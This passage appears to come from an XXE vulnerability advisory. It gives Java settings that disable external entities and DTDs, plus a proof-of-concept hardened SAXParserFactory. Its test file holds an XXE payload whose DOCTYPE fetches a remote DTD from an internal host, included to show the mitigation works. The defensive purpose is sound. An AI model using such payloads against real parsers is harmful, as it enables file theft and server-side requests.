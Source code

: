 #### 3.1. Mitigation

Make sure processing of external entities and remote DTDs is disabled server-side, in the XML parser component.

In Java this can be accomplished via:
```java
xmlParserInstance.setFeature("http://xml.org/sax/features/external-general-entities", false);
xmlParserInstance.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
xmlParserInstance.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```


#### 3.2. Mitigation - full proof of concept

Contents of `/tmp/data.xml`:
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://172.16.201.160:8888/dtd">
<x>&trigger;</x>
```

Main class:
```java
import org.xml.sax.SAXException;
import org.xml.sax.SAXNotRecognizedException;
import org.xml.sax.SAXNotSupportedException;
import org.xml.sax.helpers.DefaultHandler;

import javax.xml.parsers.ParserConfigurationException;
import javax.xml.parsers.SAXParser;
import javax.xml.parsers.SAXParserFactory;


public class Main {

    public static void main(String argv[]) {

        try {
            SAXParserFactory factory = SecureSAXParserFactory.getInstance();
            SAXParser saxParser = factory.newSAXParser();
            DefaultHandler handler = new DefaultHandler();
            saxParser.parse("/tmp/data.xml", handler);

        } catch (Exception e) {
            System.out.println(e.getMessage());
        }
    }
}

class SecureSAXParserFactory extends SAXParserFactory {

    private static SAXParserFactory thisInstance = SAXParserFactory.newInstance();

    public SAXParser newSAXParser() throws ParserConfigurationException, SAXException {
        return thisInstance.newSAXParser();
    }

    public void setFeature(String name, boolean value) throws ParserConfigurationException, SAXNotRecognizedException, SAXNotSupportedException {
        thisInstance.setFeature(name, value);
    }

    public boolean getFeature(String name) throws ParserConfigurationException, SAXNotRecognizedException, SAXNotSupportedException {
        return thisInstance.getFeature(name);
    }

    public static SAXParserFactory getInstance() throws SAXNotSupportedException, SAXNotRecognizedException, ParserConfigurationException {
        thisInstance.setFeature("http://xml.org/sax/features/external-general-entities", false);
        thisInstance.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        thisInstance.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
        return thisInstance;
    }
}
```


#### 3.3. Remarks on `<!DOCTYPE` declaration (DTD)

It is a good idea to disable DTD processing because, some XML libraries enable this behavior by default:
```
class: com.sun.org.apache.xerces.internal.impl.XMLDocumentFragmentScannerImpl;
322 - /** Xerces Feature: Disallow doctype declaration. */
323 - protected boolean fDisallowDoctype = false;
```
